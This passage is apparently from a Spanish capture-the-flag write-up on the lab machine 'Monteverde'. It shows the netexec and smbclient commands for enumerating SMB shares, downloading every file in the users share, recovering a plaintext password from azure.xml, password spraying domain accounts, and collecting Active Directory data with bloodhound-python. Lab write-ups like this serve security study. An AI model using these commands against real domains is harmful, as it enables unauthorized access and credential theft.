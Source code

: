 Nos encuentra unas credenciales válidas.
SABatchJobs:SABatchJobs 

Vamos a echar un vistazo a los recursos que se comparten con este usuario por SMB:

``netexec smb 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --shares``

![Pasted image 20250315000307](https://github.com/user-attachments/assets/fb576f84-0e3c-4f8f-8150-cf407f3bbe6c)

Aparecen directorios interesantes con permisos de lectura: azure_uploads y users

Comenzamos conectándonos al directorio users y nos traemos todo el contenido:

``smbclient //10.10.10.172/users$ -U 'SABatchJobs%SABatchJobs'``

``prompt off``

``recurse on``

``mget *``

Una vez lo tenemos en la máquina víctima, miramos el contenido del archivo azure.xml:

![Pasted image 20250315000647](https://github.com/user-attachments/assets/a82c89b6-c7d9-453a-bbc0-a5ef5788e4cc)

Aparece claramente un valor en el campo de contraseña: 4n0therD4y@n0th3r

Se hace password spraying contra todos los usuarios del dominio para esta contraseña:

``netexec smb 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$' --continue-on-success``

![Pasted image 20250315000908](https://github.com/user-attachments/assets/a9fb30c5-638f-4561-99fa-6641e78a5f6d)

Estupendo, fuunciona para mhope.

Por SMB se comparte exactamente lo mismo para mhope que para SABatchJobs.

Vamos a hacer uso de la herramienta BloodHound para enumerar más a fondo el dominio e intentar ver cositas.

Dado que el DC tiene un servidor DNS corriendo, no es necesario estar dentro de la máquina víctima y compartir SharpHound, sino que podemos hacer uso de BloodHound-Python:

``bloodhound-python -u 'mhope' -p '4n0therD4y@n0th3r$' -d megabank.local -c all -ns 10.10.10.172``

![Pasted image 20250315001530](https://github.com/user-attachments/assets/4ee679f2-a702-47c0-a4da-c651703b6d20)

Una vez hemos recolectado la data, levantamos neo4j:

``sudo neo4j start``

![Pasted image 20250315001545](https://github.com/user-attachments/assets/5e162985-9c07-4723-bd08-93d66bc2eb59)

Acto seguido levantamos BloodHound:
 
``bloodhound --no-sandbox &>/dev/null & disown``

Introducimos nuestras credenciales de neo4j en el panel de login.

Subimos los archivos .json generados previamente:

